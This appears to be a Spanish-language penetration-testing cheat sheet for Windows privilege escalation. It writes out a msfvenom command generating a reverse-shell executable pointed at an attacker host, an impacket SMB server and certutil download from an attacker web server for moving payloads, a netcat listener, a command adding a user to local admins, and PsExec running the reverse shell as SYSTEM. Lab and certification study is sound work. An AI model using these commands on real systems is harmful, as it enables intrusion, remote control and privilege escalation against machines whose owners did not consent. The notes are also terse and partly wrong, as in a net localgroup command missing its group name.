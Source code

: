 # Preparación
1º Creacion de reverse shell con `msfvenom -p windows/x64/shell_reverse_tcp LHOST=IPATACANTE LPORT=53 -f exe -o reverse.exe`


2º En nuestra kali linux hacemos un servidor con impacket
	localización de tools de impacket `/usr/share/doc/python3-impacket/examples`
	Comando servidor impacket
	`python3 smbserver.py test /home/bardock`

3º Forma de Conectarse para copiar archivos
`copy \\IP\test\ARCHIVO C:\RUTA `

3.5º Copiarse de windwos a linux
`copy ARCHIVO \\IP\test\`

4º Shell con Netcat 
`nc -nvlp 53`


1º Abrimos servidor web
`python -m http.server 80`

2º COpiamos archivo web
`certutil -f -urlcache -split http://IP/archivo archivo`

## Conexion por RDP
1º Añadir al grupo admins al usuario
`net localgroup <username> /add`
2º Usando PsExec conexion remota
`tool PsExec: .\PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe`


# Evitar Rabbit Holes
Si al usar `sc query / sc qc ` y vemos que no tenemos los privielgios de

`SERVICE_START y SERVICE_STOP`

Este servicio se excluye de las explotaciones

### Apagar y encender servicios
1º net.exe
~~~~c
net stop / start SERVICE
~~~~

2º sc.exe
~~~~c
sc.exe stop / start SERVICE
~~~~


# Recomendaciones/ Tips
# Enumeración Manual
Enumerar información del sistema
~~~~c
>> systeminfo
~~~~
